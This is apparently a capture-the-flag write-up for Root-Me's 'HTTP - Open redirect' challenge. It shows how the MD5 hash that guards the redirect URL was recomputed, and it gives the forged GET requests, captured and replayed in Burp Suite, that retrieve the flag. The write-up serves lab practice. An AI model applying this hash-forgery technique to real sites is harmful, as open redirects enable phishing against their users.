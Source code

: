 # Challange Info

Name : HTTP - Open redirect

Difficulty : Very easy

Category : Web Server

Link : https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect

# Writeup

Capturing the redirect request with burpsuite.

The redirect is being checked with a MD5 hash.

```
GET /web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134 HTTP/1.1
```

Generating a hash for some other website and changing website and hash in URL.

```
GET /web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f HTTP/1.1
```

This will send one request which I sent to repeater.

```
GET /web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f HTTP/1.1

Host: challenge01.root-me.org

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request flag is there.
